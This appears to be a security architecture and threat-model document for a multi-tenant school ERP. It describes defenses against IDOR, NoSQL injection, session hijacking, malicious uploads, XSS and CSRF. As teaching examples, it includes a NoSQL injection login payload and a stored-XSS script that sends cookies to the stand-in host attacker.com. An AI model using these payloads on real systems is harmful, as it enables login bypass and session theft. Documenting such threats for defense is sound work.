

# SECURITY_ARCHITECTURE.md — Threat Model & Security Engineering Blueprint

**System Name:** EduSphere ERP  
**Document Version:** 1.0.0  
**Phase:** Phase 0 — Architecture & Engineering Blueprint  
**Security Standard:** OWASP Top 10 (2021) & ASVS Level 2 Compliance  
**Audience:** Security Engineers, DevOps, Backend Developers

---

## 1. Threat Modeling & Attack Surface Analysis

The platform handles critical Personally Identifiable Information (PII) of minors, academic credentials, and financial transactions. Below is the STRIDE / OWASP threat matrix and institutional defenses:



---

## 2. Threat Vector Mitigations & Technical Controls

### 2.1 Cross-Tenant Data Access & IDOR (The #1 SaaS Threat)

- **The Vulnerability:** An authenticated student or administrator from School A queries `/api/v1/fee-invoices/66db6145a1980cf34b9281a1` belonging to School B.
- **Architecture Mitigations:**
  1. **Zero-Trust Param Resolution:** API parameters are never queried directly without tenant context:
     ```typescript
     // WRONG:
     const invoice = await Invoice.findById(req.params.id);

     // CORRECT (Mandated by Repository Architecture):
     const invoice = await Invoice.findOne({
       _id: req.params.id,
       tenantId: req.tenantContext.tenantId, // Injected automatically
       isDeleted: false,
     });
     ```
  2. **Automated Mongoose Tenant Enforcement Plugin:** The pre-find hook intercepts all read/write queries and injects the active tenant discriminator. If an internal developer forgets to filter by `tenantId`, the ODM injects it automatically.
  3. **Cryptographically Opaque Cursors:** Pagination cursors encode both entity ID and tenant hash. Tampering with the cursor fails HMAC verification.

### 2.2 NoSQL Injection Attacks

- **The Vulnerability:** Express body-parser accepts JSON objects. An attacker sends:
  ```json
  { "email": { "$gt": "" }, "password": "known" }
  ```
  In unvalidated code, this matches the first user in the database.
- **Architecture Mitigations:**
  1. **Strict Zod Runtime Validation:** Every incoming controller payload is parsed with a Zod schema. If `email` is received as an object instead of `z.string().email()`, Zod rejects the request with HTTP 422 before the controller executes.
  2. **`express-mongo-sanitize`:** Strips any incoming keys containing `$` or `.` from `req.body`, `req.query`, and `req.params`.

### 2.3 Broken Authentication & Session Hijacking

- **Architecture Mitigations:**
  1. **Password Hashing:** Passwords hashed with **Argon2id** (Memory: 64MB, Iterations: 3, Parallelism: 4). SHA-256 and MD5 are strictly banned.
  2. **Token Rotation & Breach Detection:**
     - Refresh tokens are stored as SHA-256 hashes in MongoDB.
     - When a refresh token is presented, a new token is minted, and the previous token is marked consumed.
     - If an already-consumed token is re-submitted (indicating an attacker intercepted the token), the system flags a session breach, revokes the user's entire session family, and forces all active devices to re-authenticate.
  3. **Brute Force Cooldown:** 5 consecutive failed logins trigger a 15-minute progressive account lockout and send a security alert email to the account owner.

### 2.4 Malicious File Upload Attacks

- **The Vulnerability:** An attacker uploads a PHP script disguised as `.jpg` or a crafted `.svg` containing `<script>` tags, executing malicious code on the server or client.
- **Architecture Mitigations:**
  1. **No Server-Side File Storage:** Uploads bypass the Node.js API server entirely. The client requests a presigned S3 PUT URL from `/api/v1/files/presigned-url`.
  2. **Strict MIME & Extension Whitelist:** Allowed MIME types are restricted to: `image/jpeg`, `image/png`, `image/webp`, `application/pdf`. SVG and executable formats (`.exe`, `.sh`, `.php`, `.js`) are prohibited.
  3. **UUID Filename Sanitization:** Uploaded files are renamed to random UUIDv4 strings. User-supplied filenames are stored purely as metadata.
  4. **Post-Upload Virus Scanning:** An S3 ObjectCreated event triggers a background Lambda/Worker running ClamAV. Infected files are quarantined and deleted before publishing.

### 2.5 Stored Cross-Site Scripting (XSS)

- **The Vulnerability:** An administrator publishes an announcement containing `<script>fetch('attacker.com/steal?cookie=' + document.cookie)</script>`.
- **Architecture Mitigations:**
  1. **Sanitization:** All rich-text inputs (announcements, homework descriptions) are sanitized with `sanitize-html` / `DOMPurify` on both backend receipt and frontend display.
  2. **Tokens Outside DOM:** Refresh tokens reside in `HttpOnly` cookies; access tokens reside in memory. XSS cannot exfiltrate these credentials.
  3. **Content Security Policy (CSP):**
     ```http
     Content-Security-Policy: default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline'; img-src 'self' data: https://edusphere-assets.s3.amazonaws.com; connect-src 'self' https://api.edusphere.io; frame-ancestors 'none';
     ```

### 2.6 Cross-Site Request Forgery (CSRF)

- **Mitigation:**
  - Refresh token cookie is configured with `SameSite=Strict; Secure; HttpOnly; Path=/api/v1/auth/refresh`.
  - All state-changing APIs (`POST`, `PATCH`, `DELETE`) require the `Authorization: Bearer <accessToken>` header, which browsers never send automatically with cross-origin requests.

---

## 3. Cryptographic & Data Protection Standards

| Data Classification | Examples                                            | Storage Standard                 | Encryption Algorithm                                |
| :------------------ | :-------------------------------------------------- | :------------------------------- | :-------------------------------------------------- |
| **Passwords**       | User credentials                                    | One-way salted hash              | Argon2id (m=65536, t=3, p=4)                        |
| **Sensitive PII**   | Blood group, medical allergies, emergency contacts  | Field-level encrypted in MongoDB | AES-256-GCM with envelope key management            |
| **Payment Secrets** | Razorpay / Stripe API webhook secrets               | Environment / HashiCorp Vault    | Encrypted at rest; injected at runtime              |
| **Data in Transit** | All client-to-server and inter-service HTTP traffic | Enforced HTTPS / TLS 1.3         | HSTS (max-age=31536000; includeSubDomains; preload) |
| **Data at Rest**    | MongoDB primary database, backups, S3 buckets       | Full storage encryption          | AWS EBS / S3 KMS AES-256                            |

---

## 4. Security Headers (Helmet Standard Configuration)

The Express application registers the following OWASP security headers on every response:

```typescript
import helmet from 'helmet';

export const securityHeadersMiddleware = helmet({
  contentSecurityPolicy: {
    directives: {
      defaultSrc: ["'self'"],
      scriptSrc: ["'self'"],
      styleSrc: ["'self'", "'unsafe-inline'"],
      imgSrc: ["'self'", 'data:', 'https://*.s3.amazonaws.com'],
      connectSrc: ["'self'", 'https://api.edusphere.io'],
      objectSrc: ["'none'"],
      upgradeInsecureRequests: [],
    },
  },
  crossOriginEmbedderPolicy: true,
  crossOriginOpenerPolicy: { policy: 'same-origin' },
  crossOriginResourcePolicy: { policy: 'same-site' },
  dnsPrefetchControl: { allow: false },
  frameguard: { action: 'deny' }, // Prevents clickjacking
  hidePoweredBy: true, // Hides X-Powered-By: Express
  hsts: { maxAge: 31536000, includeSubDomains: true, preload: true },
  ieNoOpen: true,
  noSniff: true, // Prevents MIME-sniffing
  originAgentCluster: true,
  permittedCrossDomainPolicies: { permittedPolicies: 'none' },
  referrerPolicy: { policy: 'strict-origin-when-cross-origin' },
  xssFilter: true,
});
```
